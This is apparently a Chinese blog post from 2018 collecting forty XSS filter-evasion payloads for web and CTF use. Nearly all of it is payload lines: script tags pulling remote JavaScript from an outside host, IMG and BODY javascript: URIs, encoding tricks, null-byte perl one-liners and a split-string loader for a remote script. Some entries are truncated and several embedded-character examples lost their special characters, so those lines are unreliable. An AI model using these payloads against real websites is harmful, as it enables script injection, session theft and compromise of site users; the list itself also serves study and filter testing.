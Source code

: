 ```yaml
---
title: xss payload
date: 2018-10-14 18:11:03
tags:
	- xss
	- web
	- ctf
categories:
	- ctf
---
```


总结了常用的xss payload
<!--more-->

1.普通的XSS JavaScript注入

    <SCRIPT SRC=http://3w.org/XSS/xss.js></SCRIPT>

2.IMG标签XSS使用JavaScript命令

    <IMG SRC=1 ONERROR=alert('XSS')>

3.IMG标签无分号无引号

    <IMG SRC=javascript:alert('XSS')>

4.IMG标签大小写不敏感

    <IMG SRC=JaVaScRiPt:alert('XSS')>

5.HTML编码(必须有分号)

    <IMG SRC=javascript:alert("XSS")>

6.修正缺陷IMG标签

    <IMG """><SCRIPT>alert("XSS")</SCRIPT>">

7.formCharCode标签(计算器)

    <IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>

8.UTF-8的Unicode编码(计算器)

    <IMG SRC=jav..省略..S')>

9.7位的UTF-8的Unicode编码是没有分号的(计算器)

    <IMG SRC=jav..省略..S')>

10.十六进制编码也是没有分号(计算器)

    <IMG SRC=&#x6A&#x61&#x76&#x61..省略..&#x58&#x53&#x53&#x27&#x29>

11.嵌入式标签,将Javascript分开

    <IMG SRC="jav ascript:alert('XSS');">

12.嵌入式编码标签,将Javascript分开

    <IMG SRC="jav ascript:alert('XSS');">

13.嵌入式换行符

    <IMG SRC="jav ascript:alert('XSS');">

14.嵌入式回车

    <IMG SRC="jav ascript:alert('XSS');">

15.嵌入式多行注入JavaScript,这是XSS极端的例子

    <IMG SRC="javascript:alert('XSS')">

16.解决限制字符(要求同页面)

    <script>z='document.'</script>
    <script>z=z+'write("'</script>
    <script>z=z+'<script'</script>
    <script>z=z+' src=ht'</script>
    <script>z=z+'tp://ww'</script>
    <script>z=z+'w.shell'</script>
    <script>z=z+'.net/1.'</script>
    <script>z=z+'js></sc'</script>
    <script>z=z+'ript>")'</script>
    <script>eval_r(z)</script>

17.空字符

    perl -e 'print "<IMG SRC=java\0script:alert(\"XSS\")>";' > out

18.空字符2,空字符在国内基本没效果.因为没有地方可以利用

    perl -e 'print "<SCR\0IPT>alert(\"XSS\")</SCR\0IPT>";' > out

19.Spaces和meta前的IMG标签

    <IMG SRC=" javascript:alert('XSS');">

20.Non-alpha-non-digit XSS

    <SCRIPT/XSS SRC="http://3w.org/XSS/xss.js"></SCRIPT>

21.Non-alpha-non-digit XSS to 2

    <BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>

22.Non-alpha-non-digit XSS to 3

    <SCRIPT/SRC="http://3w.org/XSS/xss.js"></SCRIPT>

23.双开括号

    <<SCRIPT>alert(a.sourse);//<</SCRIPT>

24.无结束脚本标记(仅火狐等浏览器)

    <SCRIPT SRC=http://3w.org/XSS/xss.js?<B>

25.无结束脚本标记

    <SCRIPT SRC=//3w.org/XSS/xss.js>

26.半开的HTML/JavaScript XSS

    <IMG SRC="javascript:alert('XSS')"

27.双开角括号

    <iframe src=http://3w.org/XSS.html >

28.无单引号、双引号、分号

    <SCRIPT>a=/XSS/ alert(a.source)</SCRIPT>

29.换码过滤的JavaScript

    \";alert('XSS');//

30.结束Title标签

    </TITLE><SCRIPT>alert("XSS");</SCRIPT>

31.Input Image

    <INPUT SRC="javascript:alert('XSS');">

32.BODY Image

    <BODY BACKGROUND="javascript:alert('XSS')">

33.BODY标签

    <BODY('XSS')>

34.IMG Dynsrc

    <IMG DYNSRC="javascript:alert('XSS')">

35.IMG Lowsrc

    <IMG LOWSRC="javascript:alert('XSS')">

36.BGSOUND

    <BGSOUND SRC="javascript:alert('XSS');">

37.STYLE sheet

    <LINK REL="stylesheet" HREF="javascript:alert('XSS');">

38.远程样式表

    <LINK REL="stylesheet" HREF="http://3w.org/xss.css">

39.List-style-image(列表式)

    <STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS

40.IMG VBscript

    <IMG SRC='vbscript:msgbox("XSS")'></STYLE><UL><LI>XSS